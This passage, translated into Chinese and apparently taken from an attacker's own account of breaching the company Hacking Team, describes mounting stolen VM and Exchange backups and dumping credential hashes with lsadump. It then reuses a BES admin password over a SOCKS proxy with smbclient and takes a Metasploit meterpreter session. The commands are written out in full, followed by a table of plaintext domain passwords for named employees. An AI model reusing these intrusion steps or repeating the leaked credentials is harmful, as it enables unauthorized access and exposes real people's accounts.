至此，文件系统现身了！挂载上去：

```
vmfs-fuse -o ro /dev/sdb1 /mnt/tmp

```

然后就可以发现若干个虚拟机的安全备份了，邮件服务器看起来很有吸引力。尽管他太大了，还是可以远程挂载上来，搜索我们想要的东西：

```
$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT

entonces el offset es 2048 * 512 = 1048576
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/

```

现在，在`/mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 172311`我们可以发现虚拟机的硬盘，然后 就可以挂载上去了：

```
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1

```

最后，我们就可以在`/mnt/part1`看到所有老的邮件交换服务器上的东西了。

0x08 从安全备份到域管理员
===============

* * *

.其实我最感兴趣的还是想在安全备份文件里面找到一些常用的密码或者hash以便于进入物理机。我使用pwdump, cachedump 和lsadump去寻找可能的密码，最后lsdadump发现了一个bes管理服务器的账户的密码:

```
_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........

```

我通过proxychains加上嵌入式机器上的socks代理，和smb客户端去尝试这个密码：

```
proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!'

```

成功了！密码仍然有效，而且是本地管理员。我用代理和`metasploit`的`psexec__psh`来获取一个`meterpreter session`。我在机器上抓取到了他的其他密码，包括域管理员的密码。

```
HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- look! the sysadmin!
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66
HACKINGTEAM  w.furlan       Blu3.B3rry!
```